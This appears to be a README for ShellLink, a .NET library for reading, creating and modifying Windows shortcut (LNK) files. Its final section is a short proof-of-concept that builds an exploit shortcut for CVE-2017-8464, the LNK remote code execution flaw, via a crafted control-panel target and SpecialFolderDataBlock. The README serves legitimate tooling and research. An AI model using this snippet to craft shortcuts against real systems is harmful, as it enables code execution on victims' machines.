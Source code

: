 # ShellLink
A .NET Class Library for processing ShellLink (LNK) files as documented in [MS-SHLLINK](https://msdn.microsoft.com/en-us/library/dd871305.aspx). It allows for reading, creating and modifying ShellLink (LNK) files.

Note this Class Library depends on the [PropertyStore](https://github.com/securifybv/PropertyStore) Class Library.

## Examples

### Dump
```
Console.WriteLine(
	Shortcut.ReadFromFile(@"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Paint.lnk")
);
```

#### Sample Output
```
Shortcut:
HeaderSize: 76 (0x4C)
LinkCLSID: 00021401-0000-0000-c000-000000000046
LinkFlags: HasName, HasIconLocation, IsUnicode, ForceNoLinkInfo, HasExpString, EnableTargetMetadata, PreferEnvironmentPath
FileAttributes: 0
CreationTime: 1/1/1601 12:00:00 AM
AccessTime: 1/1/1601 12:00:00 AM
WriteTime: 1/1/1601 12:00:00 AM
FileSize: 0 (0x0)
IconIndex: 0
ShowCommand: SW_SHOWNORMAL
HotKey: 0
StringData:
NameString: @%SystemRoot%\system32\shell32.dll,-22566
IconLocation: %windir%\system32\mspaint.exe
ExtraData:
EnvironmentVariableDataBlock:
BlockSize: 788 (0x314)
BlockSignature: 0xA0000001
TargetAnsi: %windir%\system32\mspaint.exe
TargetUnicode: %windir%\system32\mspaint.exe
PropertyStoreDataBlock:
BlockSize: 102 (0x66)
BlockSignature: 0xA0000009
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 46588ae2-4cbc-4338-bbfc-139326986dce
IntegerName:
ValueSize: 17 (0x11)
ID: 0x0
TypedPropertyValue:
Type: VT_UI4
Value: 0
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 9f4c2855-9f79-4b39-a8d0-e1d42de1d5f3
IntegerName:
ValueSize: 17 (0x11)
ID: 0x12
TypedPropertyValue:
Type: VT_UI4
Value: 1
```

### Create
```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\calc.exe")
	.WriteToFile(@"calc.lnk");
```

```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\cmd.exe", 
	"/c calc.exe", 
	@"%SystemRoot%\System32\calc.exe", 0)
		.WriteToFile(@"calc2.lnk");
```

```
new Shortcut()
{
	LinkTargetIDList = new LinkTargetIDList()
	{
		Path = @"C:\Windows\System32\calc.exe"
	}
}.WriteToFile(@"calc3.lnk");
```

### Modify
```
Shortcut PowerShellLnk = Shortcut.ReadFromFile(
	Environment.ExpandEnvironmentVariables(@"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Windows PowerShell\Windows PowerShell.lnk")
);
// change the background color
PowerShellLnk.ExtraData.ConsoleDataBlock.FillAttributes &= ~FillAttributes.BACKGROUND_BLUE;
PowerShellLnk.WriteToFile(@"PowerShell.lnk");
```

### CVE-2017-8464 | LNK Remote Code Execution Vulnerability
```
Shortcut lnk = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl"),
};
lnk.ExtraData.SpecialFolderDataBlock = new SpecialFolderDataBlock()
{
	SpecialFolderID = 0x03,
	Offset = (UInt32)0x28
};
lnk.WriteToFile(@"CVE-2017-8464.lnk");
```